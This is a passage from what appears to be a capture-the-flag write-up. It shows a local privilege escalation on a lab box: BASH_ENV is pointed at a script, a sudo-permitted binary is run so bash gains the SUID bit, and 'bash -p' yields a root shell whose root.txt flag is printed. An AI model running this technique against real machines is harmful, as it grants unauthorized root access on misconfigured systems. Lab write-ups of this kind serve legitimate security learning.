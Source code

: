  I will set the variable now to this file `script.sh`.

```bash
hish@environment:/tmp$ export BASH_ENV=/tmp/script.sh
```
{: .nolineno }

Now I will run the sudoer binary file now 🔽

```bash
hish@environment:/tmp$ sudo /usr/bin/systeminfo
```
{: .nolineno }

## 9️⃣ Root Access  

**Getting Root Shell:**

Resulting I got the SUID permission on bash 🔻

```bash
hish@environment:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Mar 30  2024 /bin/bash
hish@environment:/tmp$ bash -p
bash-5.2# cd /root
bash-5.2# whoami
root
bash-5.2# id
uid=1000(hish) gid=1000(hish) euid=0(root) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
bash-5.2# hostname
environment
bash-5.2# ls -al
total 44
drwx------  6 root root 4096 Aug 31 15:00 .
drwxr-xr-x 18 root root 4096 Apr 30 00:31 ..
lrwxrwxrwx  1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 11  2021 .bashrc
drwx------  3 root root 4096 Jan 12  2025 .config
-rw-------  1 root root   20 Apr  7 20:34 .lesshst
drwxr-xr-x  3 root root 4096 Jan  8  2025 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 31 15:00 root.txt
drwxr-xr-x  2 root root 4096 Apr 11 00:55 scripts
-rw-r--r--  1 root root   66 Jan 12  2025 .selected_editor
drwx------  2 root root 4096 Jan  6  2025 .ssh
bash-5.2# cat root.txt
5f56125f0513a30e911d936866cfd4ac
bash-5.2# 
```
{: .nolineno }

I am root now !

___
